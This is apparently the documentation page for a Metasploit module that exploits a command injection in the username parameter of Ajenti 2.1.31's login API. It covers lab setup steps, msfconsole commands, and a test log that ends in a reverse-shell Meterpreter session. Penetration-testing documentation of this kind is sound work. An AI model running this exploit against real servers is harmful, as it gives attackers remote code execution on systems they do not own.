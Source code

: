 ## Description

This module exploits a command injection in Ajenti == 2.1.31. By injecting a command into the username POST parameter to api/core/auth, a shell can be spawned.

## Vulnerable Application

This module has been tested with [Ajenti 2.1.31](https://pypi.org/project/ajenti-panel/2.1.31/#files)

### Setup

1. `sudo pip install ajenti-panel==2.1.31 ajenti.plugin.dashboard ajenti.plugin.settings ajenti.plugin.plugins`
2. `ajenti-panel -v`

## Verification Steps

  1. `use exploit/unix/webapp/ajenti_auth_username_cmd_injection`
  2. `set RHOSTS <rhost>`
  3. `set LHOST <lhost>`
  4. `exploit`

## Options

### RPORT

Set this to the Ajenti port. The default is 8000.

### TARGETURI

Set this to the Ajenti base path. The default is `/`.


## Scenarios

### Tested Ajenti 2.1.31 on Ubuntu 19.10 x64

```
msf > use exploit/unix/webapp/ajenti_auth_username_cmd_injection
msf exploit(unix/webapp/ajenti_auth_username_cmd_injection) > set RHOSTS 172.16.172.135
RHOSTS => 172.16.172.135
msf exploit(unix/webapp/ajenti_auth_username_cmd_injection) > set LHOST 172.16.172.1
LHOST => 172.16.172.1
msf exploit(unix/webapp/ajenti_auth_username_cmd_injection) > exploit

[*] Started reverse TCP handler on 172.16.172.1:4444
[*] Exploiting...
[*] Sending stage (53755 bytes) to 172.16.172.135
[*] Meterpreter session 1 opened (172.16.172.1:4444 -> 172.16.172.135:53170) at 2019-11-18 19:51:04 +0300

meterpreter >

```
